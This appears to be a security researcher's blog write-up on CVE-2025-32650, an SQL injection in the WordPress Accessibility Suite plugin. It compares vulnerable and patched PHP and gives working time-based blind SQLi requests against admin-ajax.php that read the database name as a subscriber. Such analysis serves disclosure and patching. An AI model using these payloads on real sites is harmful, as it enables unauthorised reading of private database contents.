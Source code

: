 # CVE-2025-32650 Analysis & POC


<!--more-->

The vulnerability occurs in the **Accessibility Suite** plugin for WordPress before version **4.19**.
This allows an attacker to directly interact with the database, potentially stealing sensitive information.

* **CVE ID**: [CVE-2025-32650](https://www.cve.org/CVERecord?id=CVE-2025-32650)
* **Product**: [WordPress Accessibility Suite Plugin](https://wordpress.org/plugins/online-accessibility/)
* **Vulnerability Type**: SQL Injection
* **Affected Versions**: <= 4.18
* **CVSS Severity**: High (8.5)
* **Required Privilege**: Subscriber

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
* **Accessibility Suite**:  v4.18 (vulnerable) and v4.19 (patched)
* **Diff tool**: **meld** or any other comparison tool to spot version differences

## Analysis

The plugin failed to properly typecast user input. Although it used `prepare()` to prevent SQLi, the implementation was **incorrect**, leaving the vulnerability exploitable.

### Patch Diff

Use any diff tool to compare the vulnerable and patched versions.
A key difference appears in **includes/classes/Helper.php**.

```php
static function save_false_positive($scan_id, $issue_id){
    // other logic
    if(! is_admin()) {
        return '';
    }
    // other logic
    $list = json_decode(
        $wpdb->get_results($wpdb->prepare("SELECT list FROM  $table_name WHERE scan_id = $scan_id"))[0]->list // phpcs:ignore
    );
}
```

The patched version passes `$scan_id` as a parameter to the query instead of directly concatenating it.

```php
static function save_false_positive($scan_id, $issue_id){
    // other logic
    if(! is_admin()) {
        return '';
    }
    // other logic
    $scan_id = absint($scan_id); // Ensure scan_id is a positive integer
    
    if (!$scan_id) {
        return ["status" => "failed", "msg" => "Invalid scan ID"];
    }
    
    // Get list using properly prepared query
    $query = $wpdb->prepare(
        "SELECT list FROM %i WHERE scan_id = %d",
        $table_name,
        $scan_id
    );
    
    $result = $wpdb->get_results($query);
}
```

{{< figure src="patch_diff.png" caption="Patch Diff" alt="Patch Diff" >}}

### How it works

The vulnerability resides in the static function `save_false_positive` of class `Helper` in **includes/classes/Helper.php**.
To locate where it’s called, search for `save_false_positive` in the plugin directory.

{{< figure src="search_1.png" caption="Search Function Call" alt="Search for save_false_positive" >}}

👉 The `save_false_positive` function is called as a **callback** by the action hook `wp_ajax_ONLINE_ADAv4/save_false_positive`.

When a **POST** request is sent to `/wp-admin/admin-ajax.php` with
`action=ONLINE_ADAv4/save_false_positive`, the callback is executed.
It requires two POST parameters: `issue_id` and `scan_id`.
If they’re missing, the app returns:

```json
{"status":"failed","msg":"Did not receive the scan ID or the issue ID"}
```

The function checks if the user has admin privileges; if not, it returns an empty string.

```php
if(! is_admin()) {
    return '';
}
```

Then, the parameters are directly concatenated into the vulnerable SQL query.

## Exploit

### Detecting the SQLi

Send a **POST request** containing an SQLi payload.
Since it only requires an authenticated user with access to `/wp-admin/`, we can use a **subscriber** role — the lowest privilege in WordPress.
Higher roles inherit lower privileges, so this confirms the CVE’s description.

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
...
Cookie: cookie_here

action=ONLINE_ADAv4/save_false_positive&issue_id=1&scan_id=1 UNION SELECT SLEEP(5)
```

The resulting SQL query becomes:

```sql
SELECT list FROM wp_oada_false_positives WHERE scan_id = 1 UNION SELECT SLEEP(5)
```

{{< figure src="time_response.png" caption="Time-based SQLi Response" alt="Time-based response" >}}

👉 The delayed response confirms that the SQLi payload works.

**Alternative techniques for empty tables:**

* **UNION** — works even when the base query returns no rows, but you must find the correct column count.
* **Subquery**:

  * **In WHERE clause:** MySQL may optimize it away if results are predictable.
  * **In FROM clause:** The subquery executes first to create a temporary table, ensuring the injected query runs.

{{< figure src="https://www.kdnuggets.com/wp-content/uploads/ferrer_essential_guide_sql_execution_order_6.png" caption="SQL Execution Order Diagram" alt="SQL Execution Order" >}}

### Extracting the First Letter of the Database Name

To fully dump data, we first confirm that SQLi allows reading at least **one character** from the database name.

Use this payload:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
...
Cookie: cookie_here

action=ONLINE_ADAv4/save_false_positive&issue_id=1&scan_id=1 UNION SELECT IF(SUBSTRING(SCHEMA(),1,1)=0x77, SLEEP(5), 1)
```

The query uses `SUBSTRING()` to extract the first character of the database name.
If it equals `'w'` (`0x77` in hex), it triggers `SLEEP(5)`.

Since `scan_id` is escaped, hex encoding ensures payload integrity.

👉 Based on the delayed response — the first character **is indeed `w`**.

## Conclusion

The vulnerability **CVE-2025-32650** in the **Accessibility Suite** WordPress plugin (before version 4.19) stems from **improper use of `$wpdb->prepare()`**, leading to a SQL Injection.

The official patch correctly uses `$wpdb->prepare()`, ensuring safe handling of user input.

**Key takeaways:**

* Always use `$wpdb->prepare()` correctly when interacting with the WordPress database.
* Keep plugins updated and perform regular security audits to prevent exploitation.

## References

* [SQL Injection Cheat Sheet – PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)
* [WordPress Accessibility Suite Plugin <= 4.18 is vulnerable to SQL Injection](https://wordpress.org/plugins/online-accessibility/)


---

> Author: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/posts/2025-09-26-cve-2025-32650/  

